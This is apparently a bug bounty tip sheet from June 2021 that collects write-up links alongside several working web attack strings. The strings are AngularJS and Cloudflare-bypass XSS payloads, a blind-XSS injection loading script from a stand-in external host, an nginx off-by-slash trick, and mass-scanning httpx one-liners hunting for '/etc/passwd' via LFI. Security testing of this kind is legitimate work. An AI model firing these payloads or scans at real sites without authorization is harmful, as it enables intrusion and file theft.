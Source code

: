 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***

## File Upload Checklist
![img](https://pbs.twimg.com/media/ErhbCBAW8AElD5G?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbC7EXUAAPfqO?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbDodWMAARW98?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbEceXMAAZeLF?format=png&name=large)

## Intigriti May XSS Challenge Solution
- https://infosecwriteups.com/solution-and-explanation-of-tips-for-intigritis-0521-xss-challenge-by-grumpinout-7544bad98e59

## Host Header Injection Writeups
- https://link.medium.com/w8U0Cmz6bhb
- https://link.medium.com/yfM33zA6bhb
- https://sites.google.com/site/testsitehacking/10k-host-header
- https://link.medium.com/uRmqVxT6bhb
- https://link.medium.com/KzO5UK06bhb
- https://link.medium.com/jZ8Gd816bhb
- https://link.medium.com/1DbUUj46bhb
- https://link.medium.com/hoXVNp56bhb
- https://link.medium.com/2n61hn66bhb
- https://link.medium.com/rQhotO76bhb

## CVE-2020-11110 Grafana Stored XSS
- https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

## New CloudFlare XSS bypass 
```js
< svg on onload = ( alert ) ( document.domain ) > 

r " on onmouseover = ( alert ) ( document.domain ) // 

r * / eval ?. ( value % 2B / ( / . source ) // " > < input value = confirm autofocus onfocus = ' / * "
```

## [Find XSS and Blind XSS via dalfox](https://twitter.com/Alra3ees/status/1407058456323014659?s=20)
send every request to burpsuite for more manual testing
```sh
dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b '"><script src=https://YOURS.xss.ht></script>' --follow-redirects --proxy http://127.0.0.1:8080
```
![img](https://pbs.twimg.com/media/E4bf-FDXEAQmF2Q?format=jpg&name=large)

## Escalating XSS to Arbitrary File Read
- https://www.pethuraj.com/blog/escalating-xss-to-arbitrary-file-read/

### Reference Articles
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
- https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

## SSRF in pdf generator
- https://systemweakness.com/story-behind-sweet-ssrf-40c705f13053

## XSS in email field

```text
abc@mail.com‘-alert(“h4ck3d!!”)-’
```

## Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 
```sh
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

## [Find AEM:-](https://twitter.com/Alra3ees/status/1410062155248979968?s=20)

- https://github.com/0ang3el/aem-hacker
```sh
python3 aem_discoverer.py --file urls.txt
```
### scan dir:-
- https://github.com/Raz0r/aemscan
```sh
aemscan aem_url
```

## wordlist:-
https://github.com/emadshanab/Adobe-Experience-Manager

### pdnuclei tags 
```sh
nuclei -l hosts -tags AEM -t /root/nuclei-templates
```
![img](https://pbs.twimg.com/media/E5GLZFaXEAQJgaU?format=jpg&name=small) 
